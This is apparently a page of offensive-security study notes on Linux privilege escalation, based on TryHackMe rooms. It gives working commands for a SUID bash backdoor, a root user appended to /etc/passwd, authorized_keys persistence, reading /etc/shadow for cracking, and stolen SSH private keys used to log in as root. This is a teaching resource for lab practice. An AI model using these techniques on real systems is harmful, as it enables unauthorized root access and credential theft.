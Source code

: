 ```yaml
---
description: >-
  Go from a low privilege user, to a higher one to gain access to thing you're
  not supposed to
---
```


# Linux Privilege Escalation

If a system has been set up well, you might not instantly get all the privileges on the machine when you get in. It's pretty common to have a web server run as a low-privilege user, so if it ever gets hacked the attacker might not be able to do much on the server.

The point of Privilege Escalation is to abuse features of the system to execute commands as more privileged users, and thus escalating your own privileges on the system.​ Most of the information was from the Linux PrivEsc rooms on TryHackMe:

{% embed url="https://tryhackme.com/room/linprivesc" %}
First PrivEsc room with some basic techniques
{% endembed %}

{% embed url="https://tryhackme.com/room/linuxprivesc" %}
Second Privesc room with more advanced techniques and a lot of detail
{% endembed %}

## Getting Shells

Often in privilege escalation, you're letting a high-privilege user execute some command. Sometimes you can't directly execute a shell as that user and have to run some other command to send a way to get a shell somewhere. One simple way is to just execute a reverse shell as that user. Then you will get a privileged reverse shell in your listener. See [#reverse-shells](../shells.md#reverse-shells "mention") for some examples of this.&#x20;

Another easy way if you already have access to the box, is to create a [suid.md](suid.md "mention") binary of bash that the target user is the owner of. The safest way to do this is to first copy /bin/bash to another location, which will make the owner of the file the user that executed the command. Then to later get back those privileges just add the SUID bit with `chmod +s` to take over the privileges of the owner when you execute the program as a low-privilege user.&#x20;

{% code title="Let target execute:" %}
```shell
cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

{% code title="Low-privilege user" %}
```shell-session
$ /tmp/bash -p  # -p to maintain privileges
# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
{% endcode %}

### Write files

If you can only write to files, without running commands, you can write to some specific locations to later execute commands. If you can append data to a file, try adding a root user to `/etc/passwd` with a password that you know yourself. Then you can log in as that user and get root privileges:

```shell-session
$ openssl passwd hacker  # Generate password
aQeFa8LxllpT.
```

Then if you somehow append this following line to the `/etc/passwd` file, you will be able to log in as root using the password "hacker":

```shell
hacker:aQeFa8LxllpT.:0:0:root:/root:/bin/bash
```

```shell-session
$ su hacker
Password: hacker
# id
uid=0(root) gid=0(root) groups=0(root)
```

If the box uses SSH, another way would be to append your own public key to the `.ssh/authorized_keys` file in their home directory. This allows you access to the user via SSH because you were explicitly allowed to. Just `cat` out your own `~/.ssh/id_rsa.pub` starting with `ssh-rsa`, and copy it to a new line in the `.ssh/authorized_keys` file. Then you are allowed to log in simply using SSH:

```shell-session
$ ssh root@$IP
```

{% hint style="warning" %}
Default installations of SSH don't allow logging in as `root`. To check this look at the `PermitRootLogin` option in `/etc/ssh/sshd_config`:

```shell-session
$ grep PermitRootLogin /etc/ssh/sshd_config
PermitRootLogin yes
```
{% endhint %}

### Read files

Being able to read files as a privileged user can allow you to read sensitive information. The first is the shadow hashes in `/etc/shadow`, which you can then copy to your own machine to crack (See more info in [#cracking-shadow-hashes](../../cryptography/hashing/cracking-hashes.md#cracking-shadow-hashes "mention")). Then if you have cracked a password you can just log in as that user using `su`:

```shell-session
$ su root
Password: password123
# id
uid=0(root) gid=0(root) groups=0(root)
```

Another common file to read is SSH private keys. These are located in the user's home directory in a `.ssh` folder. To find the home directory for a user you can check `/etc/passwd`:

```shell-session
$ cat /etc/passwd | awk -F: '{print $1, $6}'
root /root
...
www-data /var/www
user /home/user
```

This folder often contains an `id_rsa` file which is only readable by the user, but contains the private key that can be used to log into SSH as that user. When you are able to read this file, copy it to your attacking machine and use `ssh -i` to use the private key:

{% code title="Attacker" %}
```shell-session
$ cat id_rsa  # Saved private key
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAtc7FngGLGz9oReOq2b7k2grTgvQGtP+Yax3it73ZGuxASVKq
...
BAmcHcSorWfiOeasmS2HsoAqsBJr8DqDVAo4274CYxZooDqq+6Rimg==
-----END RSA PRIVATE KEY-----
$ chmod 600 id_rsa  # Set correct permissions to allow SSH to use it
$ ssh -i id_rsa root@$IP
# id
uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
